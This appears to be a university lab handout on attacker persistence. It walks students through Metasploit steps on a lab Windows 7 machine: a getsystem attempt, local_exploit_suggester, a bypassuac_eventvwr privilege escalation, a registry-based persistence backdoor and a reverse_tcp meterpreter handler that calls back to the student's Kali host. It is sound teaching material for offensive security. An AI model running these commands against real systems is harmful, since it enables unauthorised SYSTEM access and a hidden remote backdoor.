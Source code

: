 # Persistence


## Discussion

Threat actors persist in networks if the need to do so is one of their goals.  They may persist to collect new information created by the organization.  For example, if their goal is to steal intellectual property then they would persist to collect that information. It could be intellectual property such as the design of a new car, market segments that are being targeted, weapon systems, or any information that is of value.  They can persist by injecting startup commands for a program in the Windows registry.  The Windows registry is a large database of all settings for a Windows system.  There is a Windows startup folder and any code that is added in that folder will automatically start after a system reboot, or they may inject code that executes when a specific user authenticates to the system.

The type of persistence you’re going to set up is going to have a program that beacons every 10 seconds.  Beaconing means every 10 seconds, the program is going to try to connect to your Kali server. That effectively turns your Kali machine into a c2 server (or command and control).  Once you set up the listener, then you’ll have another backdoor into their network.


## Lab Preparation



* Re-establish the reverse shell. Check to be sure your IP address didn’t change when you switch network adapters to NETSEC-WAN.  I forgot you had to change it for the last lab.  If it is different, you will need to recreate the backdoored WinSCP program.


## Start the lab

Run the commands:

**getuid**

**getsystem**

**SUBMISSION: Annotate the screenshot to show the current user and the output of “getsystem.”  Based on what you see in the output, did the “getsystem” command work?**

NOTE: getsystem is a meterpreter command that attempts to exploit vulnerabilities and obtain “SYSTEM” level access.  Remember that the SYSTEM context is the highest level of privileges on a Windows system.

You’ll note that the ‘getsystem’ command did not work.  In that case, we’ll use another module from Metasploit that will look for a ‘local privilege escalation’ attack.  

When remote vulnerabilities are not an option, threat actors will attempt to gain access to a computer and, depending on their goals, they may want elevated privileges to persist or gain access to the resources they are targeting.  In that case, they will attempt to search for credentials or determine if the current user is in an administrator group.  If those fail, they will then check to see what software is installed on a computer.  Since many organizations don’t keep their software updated on a regular basis, it is possible to leverage a ‘local privilege escalation’ attack if there is a software program that is vulnerable.  The module you are about to run will automate the process of trying to find a local privilege escalation attack.

From the meterpreter prompt run the command:

**background**

Select “y” when asked if you want to background the process.  The background command will keep the remote shell session open and allow you to continue using Metasploit.  The module to use is the local_exploit_suggester.  Run the command:

**use post/multi/recon/local_exploit_suggester**

Then run:

**show options:**

The main one you need to set is “SESSION.”

Run the command

**sessions**

and make a note of the numeric value in the “Id” field (the leftmost value).  


![alt_text](images/image1.png "image_tooltip")


Then use that numeric Id to run the next command (change X to the numeric value of the  Id field)

**set SESSION X**

Then run:

**run**

If you receive a message that the process was interrupted by the user, 


![alt_text](images/image2.png "image_tooltip")


run the command **exploit** again.

You will see a long list of potential local privilege escalation vulnerabilities.


![alt_text](images/image3.png "image_tooltip")


You are welcome to play around with the various results to see which one works for you, though one that works is:

_bypassuac_eventvwr_

So you can run:

use exploit/windows/local/bypassuac_eventvwr

Then run:

**show options**

You’ll see the only one that needs to be set is “SESSION” so change X below to the numeric value used above for the SESSION.

**set SESSION X**

Then run:

**exploit**

It will look like the screenshot below:


![alt_text](images/image4.png "image_tooltip")


Regardless of the exploit used, you want to check to see if a Metasploit session was opened.  At the meterpret prompt, run:

**getuid**

Note you are still joker.  Now run:

**getsystem**

Note how you are running with the SYSTEM context.  At this point, you have unrestricted access to the computer.  You can create new accounts, delete accounts, or whatever else you want to achieve.




## Creating Persistence

Next you want to create persistence.  You are at the point where you can start learning to use the documentation for Metasploit.  Below is a link to the Metasploit documentation for setting up persistence.  Be sure you READ the entire document to understand what is going on with the attack.  Set your Beacon to 10 seconds and **<span style="text-decoration:underline;">be sure you change the IP address from the tutorial to the the IP of your Kali workstation.</span>**

After you run the create persistence command, then switch to your Windows 7 system and reboot it.  Watch your Metasploit console too.

Metasploit Persistence:

[https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/](https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/)

NOTE: If you receive an error that the persistence module is deprecated, you’ll need to use the module “**exploit/windows/local/persistence”**

To do so, from your msfconsole, type the command “background”

That will take you back to the console for Metasploit.  Then run: \
 \
use exploit/windows/local/persistence

set SESSION X

set LPORT 443

exploit

That will create a visual basic script which will be added to the Windows registry to start the backdoor after the user reboots and logs in to their system. \
 \
Then, while at your msfconsole, run the commands: \
 \
use exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST IP_OF_YOUR_KALI_HOST

set LPORT 443

exploit

Then switch to your Windows 7 workstation and reboot it.  Watch your Metasploit console when your system reboots.

SUBMISSION: 



1. Provide the command you used to setup persistence. If you had to use the “exploit/windows/local/persistence” then take a screenshot of the console with the command and options you set.  Sorry about the issue with this part of the lab.  I need to figure out how our versions are so different.
2. What did you like the most and least about this lab?
3. What additional questions do you have?
